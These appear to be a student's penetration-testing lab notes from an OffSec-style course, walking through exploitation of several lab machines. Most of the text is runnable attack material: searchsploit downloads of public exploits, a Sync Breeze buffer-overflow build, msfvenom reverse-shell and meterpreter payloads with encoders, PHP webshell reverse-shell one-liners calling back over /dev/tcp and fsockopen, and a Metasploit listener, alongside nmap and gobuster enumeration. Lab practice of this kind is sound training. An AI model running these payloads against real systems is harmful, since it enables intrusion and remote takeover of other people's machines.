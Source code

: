 
```
searchsploit "Sync Breeze Enterprise 10.0.28"
searchsploit -m 42341
```

install cross-compiler
```
sudo apt install mingw-w64
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32

rdesktop 192.168.204.10 -u offsec -p lab
```
- on windows search for services.msc
- click on Sync Breeze Enterprise -> Start
- open up immunity debugger as Administrator
- click file-> attach and select sync breeze
- once attached, click on view -> executable modules

create a payload with the exploit targteted at x86 and formatted for c code
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d
```

paste the above into the exploit, but keep the NOP slide part
compile again
```
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
sudo wine syncbreeze_exploit.exe
sudo dpkg --add-architecture i386 && sudo apt-get update &&
sudo apt-get install wine32
```

### VM 1
```
ssh root@192.168.204.45
searchsploit -m 44976
curl -k https://192.168.204.45/uploads/shell.php?cmd=whoami
```
in python scripts need to escape quotes inside quotes of same type
```
"<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.194/4444 0>&1'\");?>"
```
possible alternatives that don't quite work
```
<?php $sock=fsockopen("192.168.45.194",4444);exec("/bin/sh -i <&3 >&3 2>&3"); ?>
$sock=fsockopen("192.168.45.194",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
```

### VM 4
```
nmap -sT 192.168.187.213
sudo nmap -sT -A -p 20000 192.168.187.213
whatweb 192.168.187.213:20000

searchsploit -m 50999
python2 50999.py 192.168.187.213 20000

>ms6
use exploit/multi/handler
set lhost 192.168.45.194
set lport 4444
set payload windows/metrepeter/reverse_tcp
run
```

first one works
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.194 LPORT=443 -f python -b "\x00\x20" -v shellcode
msfvenom -p windows/meterpreter/reverse_tcp shikata_ga_nai LHOST=192.168.45.194 LPORT=4444 -f python -b "\x00\x20" -v shellcode
```

### VM 3
Hint
1) We recommend using /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt wordlist. Give it some time as the directory you are looking for might be at the bottom of the list.
2) Once you've found the application base address through directory fuzzing, use the exploit to point to the correct application URL.
3) In order to adjust the exploit, we suggest looking for sample files available in your local kali and rename it looking at the exploit code.
Command: 
4) Make sure you are running the exploit with the correct python version. (python2/python3)

```
nmap -sT 192.168.187.46
sudo nmap -sT -A -p 80 192.168.187.46
whatweb 192.168.187.46
gobuster dir -u http://192.168.187.46 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

```
locate sample.jpg
cp /var/lib/inetsim/http/fakefiles/sample.jpg SecSignal.jpg
```

### VM 1
```
nmap -sT 192.168.187.52
sudo nmap -sT -A -p 80 192.168.187.52
whatweb 192.168.187.52

http://192.168.187.52/cmsms
```


